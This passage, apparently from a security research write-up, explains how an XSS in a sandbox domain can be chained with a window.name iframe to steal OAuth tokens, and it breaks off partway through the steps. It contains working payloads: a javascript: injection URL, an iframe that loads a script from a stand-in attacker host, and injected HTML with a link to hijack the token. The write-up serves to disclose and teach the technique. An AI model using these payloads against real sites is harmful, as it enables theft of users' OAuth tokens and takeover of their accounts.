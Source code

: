 ## **Gadget 2: example 1, stealing window.name from a sandbox iframe**

This one had an **iframe** loaded on the **page where the OAuth-dance ended**. The **name** of the **iframe** was a **JSON-stringified version of the `window.location` object**. This is an old way of transferring data cross-domain, since the page in the iframe can get its own `window.name` set by the parent:

```javascript
i = document.createElement('iframe');
i.name = JSON.stringify(window.location)
i.srcdoc = '<script>console.log("my name is: " + window.name)</script>';
document.body.appendChild(i)
```

![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget2-example2.png)

The domain loaded in the **iframe also had a simple XSS**:

```
https://examplesandbox.com/embed_iframe?src=javascript:alert(1)
```

### Attack

If you have an **XSS** on a **domain** in one window, this window can then **reach other windows of the same origin** if there’s a parent/child/opener-**relationship between the windows**.

This means that an attacker could **exploit the XSS to load a new tab** with the crafted **OAuth link** that will **end** in the **path** that **loads** the **iframe with the token in the name**. Then, from the **XSS** exploited page it will be possible to **read the name of the iframe** because it has an **opener over the iframes parent page** and exfiltrate it.

More specificly:

1.  Created a malicious page that’s embedding an iframe of the sandbox with the XSS loading my own script:

    ```html
    <div id="leak"><iframe src="https://examplesandbox.com/embed_iframe?src=javascript:
    x=createElement('script'),
    x.src='//attacker.test/inject.js',
    document.body.appendChild(x);" 
    style="border:0;width:500px;height:500px"></iframe></div>
    ```
2.  In my script being loaded in the sandbox, I replaced the content with the link to use for the victim:

    ```javascript
    document.body.innerHTML = 
    '<a href="#" onclick="
    b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
    Click here to hijack token</a>';
    ```
